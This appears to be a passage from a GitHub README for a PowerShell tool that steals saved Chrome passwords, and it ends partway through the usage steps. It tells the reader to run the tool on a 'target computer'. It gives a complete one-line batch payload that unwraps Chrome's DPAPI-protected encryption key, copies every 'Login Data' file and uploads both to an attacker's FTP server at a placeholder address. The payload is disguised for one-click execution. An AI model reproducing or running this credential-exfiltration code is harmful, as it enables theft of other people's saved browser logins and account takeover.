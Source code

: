 # ChromePasswordDecryptionWithPS
Sending the Login Data files along with the unique byte sequence needed to decode the passwords to a FTP server. Then, decrypt those files on the server side.

HOW TO USE:
  1. Download the "chrSender.ps1" file and edit the ftp server address and ftp server credentials (these appear twice in the code make sure to edit both)
  2. Run this on the target computer (make sure your ftp server is running so it can receive the information)  
      - You can also change this ps1 file into a batch file so it can run on the target's computer with one click, this can be done like this:  
      ```
      @echo off  
      set test5=$fileLoc = $env:LOCALAPPDATA + '\Google\Chrome\User Data\Local State';$TempFile3 = New-TemporaryFile;Copy-Item $fileLoc -Destination $TempFile3;$fileCont = Get-Content $TempFile3;$x = $fileCont ^^^| ConvertFrom-Json;$key = $x.os_crypt.encrypted_key;Add-Type -AssemblyName System.Security;$befbase = [System.Convert]::FromBase64String($key);$befbase = $befbase[5..($befbase.Length-1)];$clearPWD_ByteArray = [System.Security.Cryptography.ProtectedData]::Unprotect( $befbase, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser );$TempFile = New-TemporaryFile;Set-Content $TempFile -Value $clearPWD_ByteArray -Encoding Byte;$foldPar = $env:LOCALAPPDATA + '\Google\Chrome\User Data';$chF = Get-ChildItem -Path $foldPar -Filter 'Login Data' -Recurse -ErrorAction SilentlyContinue -Force -Name;$overallNum = (Get-Random -Minimum 10000000 -Maximum 99999999);$ftp = [System.Net.FtpWebRequest]::Create(('ftp://YOURIP/' + 'k_' + $overallNum + '.dat'));$ftp = [System.Net.FtpWebRequest]$ftp;$ftp.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile;$ftp.Credentials = new-object System.Net.NetworkCredential('YOURFTPLOGIN','YOURFTPPASSWORD');$ftp.UseBinary = $true;$ftp.UsePassive = $true;$content = [System.IO.File]::ReadAllBytes($TempFile);$ftp.ContentLength = $content.Length;$rs = $ftp.GetRequestStream();$rs.Write($content, 0, $content.Length);$rs.Close();$rs.Dispose();$curIt = 0;foreach ($cF in $chF) {$cFLoc = $foldPar + '\' + $cF;$TempFile2 = New-TemporaryFile;Copy-Item $cFLoc -Destination $TempFile2;$ftp = [System.Net.FtpWebRequest]::Create(('ftp://YOURIP/' + 'c' + $curIt + '_' + $overallNum + '.dat'));$ftp = [System.Net.FtpWebRequest]$ftp;$ftp.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile;$ftp.Credentials = new-object System.Net.NetworkCredential('YOURFTPLOGIN','YOURFTPPASSWORD');$ftp.UseBinary = $true;$ftp.UsePassive = $true;$content = [System.IO.File]::ReadAllBytes($TempFile2);$ftp.ContentLength = $content.Length;$rs = $ftp.GetRequestStream();$rs.Write($content, 0, $content.Length);$rs.Close();$rs.Dispose();$curIt = $curIt + 1;}  
      powershell -command %test5%
      ```
  3. Once you re
